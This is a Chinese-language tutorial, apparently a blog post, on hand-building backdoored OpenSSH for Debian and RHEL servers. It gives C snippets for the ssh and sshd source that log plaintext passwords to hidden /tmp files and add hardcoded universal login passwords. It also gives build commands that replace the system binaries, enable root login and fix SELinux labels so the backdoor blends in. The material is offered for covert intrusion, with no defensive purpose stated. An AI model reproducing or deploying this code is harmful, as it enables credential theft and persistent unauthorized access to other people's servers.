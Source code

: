# OpenSSH后门制作

网上关于OpenSSH的后门都是抄来抄去，普遍都是对某个早期版本的OpenSSH打patch进行的，这样的后门使用起来就是自己骗自己，隐蔽性不强，兼容度也极低。因此，花了一段时间研究怎么手工制作OpenSSH后门，这样的后门定制度高，与服务器上OpenSSH版本一致，隐蔽性也较强。

本教程主要记录怎么制作硬编码口令后门及密钥窃听后门，实际上使用OpenSSH源码编译后门能做的还有很多，如硬编码免密后门、命令执行、攻击痕迹清理等。

## Debian系-OpenSSH后门

### 确定版本

```shell
dpkg -S /usr/sbin/sshd
dpkg -l openssh-server
## apt-get download openssh-server=1:8.4p1-5
```

### 下载源码

```shell
# 这是Debian版的下载地址。
https://tracker.debian.org/pkg/openssh
https://salsa.debian.org/ssh-team/openssh/-/archive/debian/1%258.4p1-5/openssh-debian-1%258.4p1-5.zip
# 这是Ubuntu版的下载地址。
https://launchpad.net/ubuntu/+source/openssh
https://launchpad.net/ubuntu/+source/openssh/1:8.4p1-5ubuntu1
```

### 添加后门代码

下面给出发现的一些可利用的位置，实战中使用基本足矣。

```shell
[ssh]
readpass.c     ... read_passphrase
sshconnect2.c  ... userauth_passwd

[sshd]
monitor.c      ... mm_answer_authpassword
auth-passwd.c  ... auth_password
auth-pam.c     ... sshpam_auth_passwd   //大多数ssh都默认使用pam进行认证
```

具体的添加步骤，这里给出几个简单例子。

#### 偷密码

```c
// sshconnect2.c:userauth_passwd      ssh（偷连向其他服务器的密码）
FILE *fp = NULL;
fp = fopen("/tmp/.ssh-2AKMo5YJSRPJ", "a+");
fprintf(fp, "{\"%s@%s\":\"%s\"} (%s:%s)\n",authctxt->server_user,authctxt->host,password,authctxt->local_user,authctxt->service);
fclose(fp);

// auth-passwd.c:auth_password        sshd（记录本机接收到的密码）
// 如果添加在具体的认证函数之前可获得所有登录尝试下的密码，用于口令分析
// 如果添加在认证通过后就是专门用于偷口令的OpenSSH口令窃取后门
FILE *fp = NULL;
time_t timep;
struct tm * lt;
time (&timep);
lt=localtime(&timep);
fp = fopen("/tmp/.sshd_listener.log", "a+");
fprintf(fp, "[%ld/%d/%d %d:%d:%d] [%d] %s:%d --> %s:%d { \"%s\" : \"%s\" }\n", \
		//asctime(gmtime(&timep)), 
		lt->tm_year+1900,lt->tm_mon+1,lt->tm_mday,lt->tm_hour,lt->tm_min,lt->tm_sec,\
		timep, \
		ssh->remote_ipaddr, \
		ssh->remote_port,\
		ssh->local_ipaddr, \
		ssh->local_port,\
		authctxt->user,password);
fclose(fp);
```

#### 万能口令

使用硬编码的万能口令能登录任意用户。

```c
// auth-passwd.c:auth_password        sshd
if (!strcmp(password, "testme12#$")) return 1;

// monitor.c:mm_answer_authpassword   sshd
原来代码如下：authenticated = options.password_authentication && auth_password(ssh, passwd);
改为：authenticated = options.password_authentication && auth_password(ssh, passwd) || strcmp(passwd, "laotie666")==0;
```

### 编译安装

```shell
apt-get install libpam0g-dev libselinux1-dev

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 

clear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/var/lib/sshd/ ; make && make install  
# 实际上源码编译并安装后会发现ssh和sshd都替换掉了。因为我们的源码包是openssh的，不单纯是openssh-server
```

### 效果

下图中可以看到Debian上使用带窃听功能的ssh后门尝试登录服务器时，记录到的密码。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_173536.jpg)

下图是其他设备尝试以万能口令登录Debian服务器的效果。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175822.jpg)

Debian服务器上带窃听后门代码的sshd上也可以看到输入的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_175916.jpg)

## RHEL系-OpenSSH后门

### 确定版本

```shell
rpm -qf /usr/sbin/sshd
```

### 下载源码

```shell
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz
https://cloudflare.cdn.openbsd.org/pub/OpenBSD/OpenSSH/portable/openssh-7.8p1.tar.gz.asc
```

### 添加后门代码

参考上面Debian系的添加方法，都是一样的。

### 编译安装

**step1** 源码编译

```shell
yum -y install pam-devel libselinux-devel zlib zlib-devel openssl-devel openssl-libs make gccwget http://vault.centos.org/8.4.2105/BaseOS/Source/SPackages/openssh-8.0p1-6.el8_4.2.src.rpmrpm -i openssh-8.0p1-6.el8_4.2.src.rpmcd ~/rpmbuild# 编译选项可查看./contrib/redhat/openssh.specclear;rm -rf /usr/local/share/man/man5/authorized_keys.5;rm -rf ~/.ssh /etc/ssh ;make clean; ./configure --with-zlib --with-ssl-dir --with-pam --bindir=/usr/bin --sbindir=/usr/sbin --sysconfdir=/etc/ssh --with-md5-passwords --with-selinux --with-privsep-path=/run/sshd ; make && make install 
```

**step2** 编写sshd.service文件

```shell
cat /etc/systemd/system/sshd.service <<EOF[Unit]Description=OpenSSH server daemonAfter=network.target[Service]Type=simpleUser=rootRestart=on-failureRestartSec=5sExecStart=/usr/sbin/sshd -f /etc/ssh/sshd_configKillMode=process[Install]WantedBy=multi-user.targetEOF
```

**step3** 编辑sshd_config配置文件，允许root登录

```shell
sed -i '/^PermitRootLogin/ s/no/yes/' /etc/ssh/sshd_config
```

**step4** 解决SELinux安全检查问题

```shell
restorecon -rv /usr/sbin/
```

**step5** 启动sshd.service

```shell
systemctl enable sshd.servicesystemctl start sshd.service
```

### 效果

下图时CentOS服务器带窃听功能的ssh及sshd捕获到的密码信息。

![](https://raw.githubusercontent.com/aplyc1a/blogs_picture/master/2021-07-06_153441.jpg)

